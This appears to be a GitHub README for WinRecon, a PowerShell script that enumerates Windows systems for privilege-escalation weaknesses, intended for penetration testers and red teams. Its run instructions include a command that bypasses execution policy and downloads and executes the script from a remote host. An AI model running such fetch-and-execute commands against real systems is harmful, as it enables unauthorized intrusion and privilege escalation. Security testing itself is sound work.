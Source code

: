 # ![WinRecon Logo](assets/winrecon-logo.png)

## WinRecon

**WinRecon** is a PowerShell-based enumeration script designed to gather essential system information needed to identify potential privilege escalation opportunities on Windows machines. It automates the process of collecting valuable data to assist penetration testers, red teams, and system administrators in finding weaknesses that could lead to elevation of privileges.

---

## Features

- **System Information Collection**: Gathers key system details such as OS version, architecture, and hostname.
- **User and Group Enumeration**: Identifies all local users and groups, checking for any misconfigurations or privileged accounts that may be leveraged for escalation.
- **Installed Software & Vulnerabilities**: Detects installed software and versioning, helping to identify outdated or vulnerable applications.
- **Service Configuration Analysis**: Checks for misconfigured services, such as unquoted service paths or weak service permissions, that can be exploited.
- **File & Registry Permissions**: Identifies files and registry keys with weak permissions that could be exploited for privilege escalation.
- **Active Sessions & Historical Logins**: Scans for active sessions and recent login history to help identify potential paths for lateral movement or privilege escalation.
- **Automated Process**: Reduces the time and effort required for manual enumeration by automating data collection.

---

## How to Run

1. **Upload** the `winrecon.ps1` script to the target Windows machine.
2. **Open PowerShell**.
3. Run the script with the following command:
   ```powershell
   powershell -ep Bypass -Command 'IEX(IWR http://<LocalHost>/winrecon.ps1 -UseBasicParsing)'
   ```

4. For full AD options you will need to download PsLoggedon.exe and PowerView.ps1




